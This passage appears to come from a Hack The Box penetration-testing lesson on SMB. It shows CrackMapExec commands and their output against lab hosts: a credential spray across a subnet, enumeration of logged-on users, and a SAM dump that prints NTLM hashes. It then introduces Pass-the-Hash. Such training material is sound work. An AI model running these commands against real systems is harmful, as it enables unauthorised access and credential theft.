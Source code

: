 ```shell-session
al1abb@htb[/htb]$ crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
SMB         10.10.110.17 445    WIN7BOX  [+] Enumerated loggedon users
SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\Administrator             logon_server: WIN7BOX
SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\jurena                    logon_server: WIN7BOX
SMB         10.10.110.21 445    WIN10BOX  [*] Windows 10.0 Build 19041 (name:WIN10BOX) (domain:WIN10BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.21 445    WIN10BOX  [+] WIN10BOX\Administrator:Password123! (Pwn3d!)
SMB         10.10.110.21 445    WIN10BOX  [+] Enumerated loggedon users
SMB         10.10.110.21 445    WIN10BOX  WIN10BOX\demouser                logon_server: WIN10BOX
```

### **Extract Hashes from SAM Database**

The Security Account Manager (SAM) is a database file that stores users' passwords. It can be used to authenticate local and remote users. If we get administrative privileges on a machine, we can extract the SAM database hashes for different purposes:

* Authenticate as another user.
* Password Cracking, if we manage to crack the password, we can try to reuse the password for other services or accounts.
* Pass The Hash. We will discuss it later in this section.

```shell-session
al1abb@htb[/htb]$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
SMB         10.10.110.17 445    WIN7BOX  [+] Dumping SAM hashes
SMB         10.10.110.17 445    WIN7BOX  Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         10.10.110.17 445    WIN7BOX  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.110.17 445    WIN7BOX  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.110.17 445    WIN7BOX  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5717e1619e16b9179ef2e7138c749d65:::
SMB         10.10.110.17 445    WIN7BOX  jurena:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
SMB         10.10.110.17 445    WIN7BOX  demouser:1002:aad3b435b51404eeaad3b435b51404ee:4c090b2a4a9a78b43510ceec3a60f90b:::
SMB         10.10.110.17 445    WIN7BOX  [+] Added 6 SAM hashes to the database
```

### **Pass-the-Hash (PtH)**

If we manage to get an NTLM hash of a user, and if we cannot crack it, we can still use the hash to authenticate over SMB with a technique called Pass-the-Hash (PtH). PtH allows an attacker to authenticate to a remote server or service using the underlying NTLM hash of a user's password instead of the plaintext password. We can use a PtH attack with any `Impacket` tool, `SMBMap`, `CrackMapExec`, among other tools. Here is an example of how this would work with `CrackMapExec`:
